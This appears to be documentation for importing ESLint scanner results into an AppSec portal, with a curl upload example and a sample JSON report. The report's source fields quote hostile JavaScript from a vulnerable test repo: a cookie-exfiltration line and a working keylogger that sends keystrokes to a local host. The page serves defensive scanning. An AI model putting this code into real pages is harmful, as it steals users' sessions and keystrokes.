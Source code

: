 ```yaml
---
description: >-
  ESLint is a popular open-source static analysis tool that is used to find and
  fix problems in JavaScript code.
---
```


# ESLint

**Auditor Job Name**: ESLint Scan\
**Auditor image:** registry.gitlab.com/whitespots-public/security-images/eslint:8.42.0\
**AppSec Portal Importer Name**: ESLint Scan, GitLab ESLint

[ESLint scaner](https://github.com/eslint/eslint) and [ESLint scaner(GitLab) ](https://gitlab.com/gitlab-org/security-products/analyzers/eslint)checks code for **common errors** and **coding style issues**, ensuring that the code is consistent and maintainable.

ESLint can detect a wide variety of issues, from simple syntax errors to more complex issues like **security vulnerabilities**. It supports a range of configurations that can be customized to suit your specific needs.

#### Curl example

{% code overflow="wrap" %}
```
curl -X POST localhost/api/v1/scan/import/ -H "Authorization: Token a75bb26171cf391671e67b128bfc8ae1c779ff7b" -H "Content-Type: multipart/form-data" -F "file=@./eslint.json" -F "product_name=Product1" -F "product_type=Application" -F "scanner_name=ESLint Scan" -F "branch=dev" -F "repository=git@gitlab.com:whitespots-public/appsec-portal.git"
```
{% endcode %}

In this command, the following parameters are used:

1. `-X POST`: specifies the HTTP method to be used (in this case, POST)
2. `-H "Authorization: Token <authorization_token>"`: specifies the [**authorization token**](../../importing-reports-from-scanners-to-appsec-portal/#authorization-token) obtained from AppSec Portal.
3. `-H "Content-Type: multipart/form-data"`: specifies the content type of the request.
4. `-F "file=@<report_file_path>"`: specifies the **path to the report file** generated by the scanner.
5. `-F "product_name=<product_name>"`: specifies the **name of the product** being scanned.
6. `-F "product_type=<product_type>"`: specifies the **type of the product** being scanned.
7. `-F "scanner_name=<scanner_name>"`: specifies the **name of the scanner** used to generate the report (ESLint Scan or GitLab ESLint)
8. `-F "branch=<branch_name>"`: (_optional_) specifies the name of the branch in the source code repository (if applicable) This parameter is particularly useful when you want to associate the scan results with a specific branch in your repository. If not provided, the scan will be associated with the default branch

Asset information, if an [auditor ](broken-reference)is used

9. `-F "repository=<repository SSH URL>"`: If your product is **code** in a repository enter the address of your **repository** in a specific format, for example: git@gitlab.com:whitespots-public/appsec-portal.git
10. &#x20;`-F "docker_image=<registry address>"`: If your product is **image** enter the address of the **registry** where your product is located, for example: registry.gitlab.com/whitespots-public/appsec-portal/back/auto\_validator:latest
11. `-F "domain=<domain>"`: If your product is **web** enter the **domain name** of your product, for example: whitespots.io
12. `-F "host=<host>"`: If your product is **web** enter the **IP address** of your product, for example: 0.0.0.0

**Report example:**

```json
[{"filePath":"/builds/whitespots-public/vulnerable-apps/python-public-example/bad/payloads/cookie.js",
"messages":[{"ruleId":"scanjs-rules/assign_to_src",
"severity":1,"message":"Assignment to src can be unsafe",
"line":1,"column":1,"nodeType":"AssignmentExpression",
"endLine":1,"endColumn":68}],"suppressedMessages":[],
"errorCount":0,"fatalErrorCount":0,"warningCount":1,
"fixableErrorCount":0,"fixableWarningCount":0,"source":
"new Image().src = 'http://127.0.0.1:8000/cookie?c='+document.cookie;\n",
"usedDeprecatedRules":[]},
{"filePath":"/builds/whitespots-public/vulnerable-apps/python-public-example/bad/payloads/keylogger.js",
"messages":[{"ruleId":"scanjs-rules/call_setInterval","severity":1,
"message":"The function setInterval can be unsafe","line":10,"column":1,
"nodeType":"CallExpression","endLine":14,"endColumn":9},
{"ruleId":"scanjs-rules/assign_to_src","severity":1,
"message":"Assignment to src can be unsafe","line":12,"column":3,
"nodeType":"AssignmentExpression","endLine":12,"endColumn":57}],
"suppressedMessages":[],"errorCount":0,"fatalErrorCount":0,"warningCount":2,
"fixableErrorCount":0,"fixableWarningCount":0,
"source":"console.log(\"ACTIVANDO EL KEYLOGGER...\");\nvar keys='';\ndocument.onkeypress = function(e) {\n  get = window.event?event:e;\n  key = get.keyCode?get.keyCode:get.charCode;\n  key = String.fromCharCode(key);\n  keys+=key;\n}\n\nsetInterval(function(){\n  console.log(\"Loop\");\n  new Image().src = 'http://127.0.0.1:8000/keys?c='+keys;\n  keys = '';\n}, 8000);\n",
"usedDeprecatedRules":[]},
{"filePath":"/builds/whitespots-public/vulnerable-apps/python-public-example/bad/payloads/payload.js",
"messages":[{"ruleId":"scanjs-rules/call_setInterval","severity":1,
"message":"The function setInterval can be unsafe","line":10,"column":1,
"nodeType":"CallExpression","endLine":14,"endColumn":9},
{"ruleId":"scanjs-rules/assign_to_src","severity":1,
"message":"Assignment to src can be unsafe","line":12,"column":3,
"nodeType":"AssignmentExpression","endLine":12,"endColumn":57}],
"suppressedMessages":[],"errorCount":0,"fatalErrorCount":0,"warningCount":2,
"fixableErrorCount":0,"fixableWarningCount":0,
"source":"console.log(\"ACTIVANDO EL KEYLOGGER...\");\nvar keys='';\ndocument.onkeypress = function(e) {\n  get = window.event?event:e;\n  key = get.keyCode?get.keyCode:get.charCode;\n  key = String.fromCharCode(key);\n  keys+=key;\n}\n\nsetInterval(function(){\n  console.log(\"Loop\");\n  new Image().src = 'http://127.0.0.1:8000/keys?c='+keys;\n  keys = '';\n}, 8000);\n",
"usedDeprecatedRules":[]},
{"filePath":"/builds/whitespots-public/vulnerable-apps/python-public-example/good/payloads/cookie.js",
"messages":[{"ruleId":"scanjs-rules/assign_to_src","severity":1,
"message":"Assignment to src can be unsafe","line":1,"column":1,
"nodeType":"AssignmentExpression","endLine":1,"endColumn":68}],
"suppressedMessages":[],"errorCount":0,"fatalErrorCount":0,"warningCount":1,"
fixableErrorCount":0,"fixableWarningCount":0,
"source":"new Image().src = 'http://127.0.0.1:8000/cookie?c='+document.cookie;\n","usedDeprecatedRules":[]},{"filePath":"/builds/whitespots-public/vulnerable-apps/python-public-example/good/payloads/keylogger.js","messages":[{"ruleId":"scanjs-rules/call_setInterval","severity":1,"message":"The function setInterval can be unsafe","line":10,"column":1,"nodeType":"CallExpression","endLine":14,"endColumn":9},{"ruleId":"scanjs-rules/assign_to_src","severity":1,"message":"Assignment to src can be unsafe","line":12,"column":3,"nodeType":"AssignmentExpression","endLine":12,"endColumn":57}],"suppressedMessages":[],"errorCount":0,"fatalErrorCount":0,"warningCount":2,"fixableErrorCount":0,"fixableWarningCount":0,"source":"console.log(\"ACTIVANDO EL KEYLOGGER...\");\nvar keys='';\ndocument.onkeypress = function(e) {\n  get = window.event?event:e;\n  key = get.keyCode?get.keyCode:get.charCode;\n  key = String.fromCharCode(key);\n  keys+=key;\n}\n\nsetInterval(function(){\n  console.log(\"Loop\");\n  new Image().src = 'http://127.0.0.1:8000/keys?c='+keys;\n  keys = '';\n}, 8000);\n","usedDeprecatedRules":[]},{"filePath":"/builds/whitespots-public/vulnerable-apps/python-public-example/good/payloads/payload.js","messages":[{"ruleId":"scanjs-rules/call_setInterval","severity":1,"message":"The function setInterval can be unsafe","line":10,"column":1,"nodeType":"CallExpression","endLine":14,"endColumn":9},{"ruleId":"scanjs-rules/assign_to_src","severity":1,"message":"Assignment to src can be unsafe","line":12,"column":3,"nodeType":"AssignmentExpression","endLine":12,"endColumn":57}],"suppressedMessages":[],"errorCount":0,"fatalErrorCount":0,"warningCount":2,"fixableErrorCount":0,"fixableWarningCount":0,"source":"console.log(\"ACTIVANDO EL KEYLOGGER...\");\nvar keys='';\ndocument.onkeypress = function(e) {\n  get = window.event?event:e;\n  key = get.keyCode?get.keyCode:get.charCode;\n  key = String.fromCharCode(key);\n  keys+=key;\n}\n\nsetInterval(function(){\n  console.log(\"Loop\");\n  new Image().src = 'http://127.0.0.1:8000/keys?c='+keys;\n  keys = '';\n}, 8000);\n","usedDeprecatedRules":[]}]
```
